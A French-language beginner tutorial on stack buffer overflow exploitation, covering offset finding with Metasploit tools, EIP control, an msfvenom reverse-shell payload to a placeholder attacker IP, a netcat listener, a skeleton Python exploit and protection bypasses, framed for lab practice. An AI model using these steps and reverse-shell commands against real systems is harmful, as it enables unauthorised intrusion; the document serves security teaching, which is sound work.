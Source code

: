 # Buffer Overflow (Dépassement de Tampon)

## Objectif
Comprendre et exploiter une faille de buffer overflow pour exécuter du code arbitraire sur une application vulnérable.

---

## Explications vulgarisées
- Un buffer overflow se produit quand un programme écrit plus de données dans une zone mémoire (buffer) que ce qui est prévu.
- Cela peut permettre à un attaquant d'écraser des variables, de détourner le flux d'exécution, voire d'exécuter son propre code (shellcode).
- **Analogie** : C'est comme remplir un verre d'eau : si tu continues à verser, ça déborde et l'eau va là où elle ne devrait pas !

---

## Schéma visuel du buffer overflow

Schéma textuel :
Entrée utilisateur
   ↓
Buffer mémoire
   ↓ (trop de données)
EIP/RIP (Instruction Pointer)
   ↓
Exécution du shellcode

---

## Étapes détaillées d'une exploitation

### 1. Identification de la vulnérabilité
- Utiliser un outil comme `pattern_create` de Metasploit pour générer une chaîne unique :
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
```
- Envoyer cette chaîne à l'application vulnérable (via netcat, un script Python, etc.).
- Observer le crash (segmentation fault) et récupérer la valeur du pointeur d'instruction (EIP/RIP).

### 2. Calcul de l'offset
- Utiliser `pattern_offset` pour trouver où le crash se produit :
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <valeur_EIP> -l 300
```
- **À quoi ça sert ?** Savoir exactement où injecter ton shellcode.

### 3. Contrôle de l'EIP/RIP
- Envoyer un buffer qui écrase l'EIP/RIP avec une valeur connue (ex : "AAAA").
- Vérifier dans un débogueur (gdb, Immunity Debugger) que l'EIP/RIP est bien contrôlé.

### 4. Injection d'un shellcode
- Générer un shellcode avec msfvenom :
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f python
```
- Remplacer la partie du buffer qui contrôle l'EIP/RIP par l'adresse de ton shellcode.
- Lancer un listener sur ta machine :
```bash
nc -nlvp 4444
```

### 5. Exploitation automatisée avec un script Python (exemple)
```python
#!/usr/bin/env python3
import socket

payload = b"A" * <offset> + <adresse_shellcode>

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("target.com", 9999))
s.send(payload)
s.close()
```
- **Astuce débutant** : Utiliser pwntools pour automatiser l'envoi et le debug.

### 6. Contournement des protections modernes
- **ASLR** : Randomise l'adresse mémoire, nécessite des techniques comme le bruteforce ou les ret2libc.
- **DEP/NX** : Empêche l'exécution sur la stack, nécessite des ROP chains ou des gadgets.
- **Stack canaries** : Valeurs aléatoires pour détecter les débordements, nécessite de les contourner ou de les leak.

---

## Conseils pour débutants
- Toujours travailler sur des programmes de lab (ex : vulnserver, protostar, pwnable.kr).
- Bien comprendre la structure de la pile (stack) et le rôle de l'EIP/RIP.
- S'entraîner avec un débogueur pour visualiser le flux d'exécution.
- Attention aux protections modernes (ASLR, DEP, stack canaries).
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Ressources visuelles et pour aller plus loin
- [PayloadsAllTheThings - Buffer Overflow](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Buffer%20Overflow)
- [Exploit Education - Protostar](https://exploit.education/protostar/)
- [Pwntools](https://docs.pwntools.com/en/stable/)
- [HackTricks - Buffer Overflow](https://book.hacktricks.xyz/pentesting-web/buffer-overflow)
- [YouTube - Buffer Overflow Visualisé (LiveOverflow)](https://www.youtube.com/watch?v=1S0aBV-Waeo) 